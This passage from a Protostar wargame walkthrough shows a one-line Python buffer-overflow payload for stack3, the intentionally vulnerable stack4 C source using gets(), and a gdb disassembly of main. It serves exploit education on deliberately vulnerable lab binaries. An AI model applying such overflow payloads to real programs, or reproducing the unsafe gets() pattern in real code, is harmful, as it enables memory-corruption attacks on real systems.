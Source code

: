 ### EXP

```text
python -c "print('A' * 64 + '\x24\x84\x04\x08')" | ./stack3
```

## Stack4

### About

Stack4 takes a look at overwriting saved EIP and standard buffer overflows.

This level is at /opt/protostar/bin/stack4

**Hints**

* A variety of introductory papers into buffer overflows may help.
* gdb lets you do “run &lt; input”
* EIP is not directly after the end of buffer, compiler padding can also increase the size.

### Source code

{% code title="stack4.c" %}
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
{% endcode %}

典型的**buffer overflow**， 通过**覆盖返回地址控制程序流程**

```javascript
Dump of assembler code for function main:
   0x08048408 <+0>:     push   ebp
   0x08048409 <+1>:     mov    ebp,esp
   0x0804840b <+3>:     and    esp,0xfffffff0
   0x0804840e <+6>:     sub    esp,0x50
=> 0x08048411 <+9>:     lea    eax,[esp+0x10]
   0x08048415 <+13>:    mov    DWORD PTR [esp],eax
   0x08048418 <+16>:    call   0x804830c <gets@plt>
   0x0804841d <+21>:    leave  
   0x0804841e <+22>:    ret
```
